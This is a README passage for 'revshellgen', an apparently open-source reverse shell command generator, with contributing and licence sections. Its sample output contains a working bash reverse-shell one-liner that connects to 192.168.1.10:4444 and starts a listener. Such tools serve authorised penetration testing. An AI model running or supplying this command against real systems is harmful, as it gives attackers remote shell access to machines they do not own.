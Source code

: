 ```

---------- [ SPECIFY PORT ] ----------
[ # ] Enter port number : 4444

---------- [ SELECT COMMAND ] ----------
[ x ] unix_bash
[   ] unix_python
[   ] unix_nc_mkfifo
...

---------- [ REVERSE SHELL COMMAND ] ----------
bash -i >& /dev/tcp/192.168.1.10/4444 0>&1

[ + ] Command copied to clipboard!
[ + ] Starting listener on port 4444...
```

## 🤝 Contributing

Contributions are welcome! Please feel free to submit a Pull Request. For major changes, please open an issue first to discuss what you would like to change.

### Development Setup

```bash
# Clone your fork
git clone https://github.com/YOUR_USERNAME/revshellgen
cd revshellgen

# Create a branch
git checkout -b feature/your-feature-name

# Make your changes and commit
git add .
git commit -m "Add your feature"

# Push to your fork
git push origin feature/your-feature-name

# Create a Pull Request
```

## 🐛 Issues & Support

Found a bug or have a suggestion? Please [open an issue](https://github.com/t0thkr1s/revshellgen/issues) on GitHub.

## 📜 License

This project is licensed under the GNU General Public License v3.0 - see the [LICENSE](LICENSE) file for details.
